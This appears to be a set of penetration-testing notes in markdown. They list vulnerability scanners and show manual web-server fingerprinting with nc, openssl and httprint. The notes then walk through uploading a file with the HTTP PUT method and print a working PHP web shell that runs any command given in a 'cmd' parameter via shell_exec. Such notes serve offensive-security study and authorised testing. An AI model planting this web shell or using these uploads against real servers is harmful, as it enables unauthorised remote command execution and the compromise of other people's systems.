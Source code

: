 OpenVAS
Nexpose
GFI LAN Guard
Nessus

List of various vuln scans:
https://sectools.org/tag/vuln-scanners/


# Web Scan

## MANUAL FINGERPRINT
```bash
nc <target> 80
HEAD / HTTP/1.0
<space>
<space>
```

For https use openssl:
```bash
openssl s_client -connect <target>:443
HEAD / HTTP/1.0
```

```bash
httprint -P0 -h <target> -s <signature file>
-P0 - to avoid pinging the host
-h - target hosts
```

HTTP VERBS
PUT

to count in bytes how long your payload is.
```bash
wc -m payload.php
```
```bash
nc <target site> 80
PUT /payload.php hTTP/1.0
Content-Type: text/html
Content-lenght: 136 > value that we get with wc -m <payload>
```

```php
<?php phpinfo(); ?>

```

PHP shell code: to use with PUT method:
```php
<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>
```

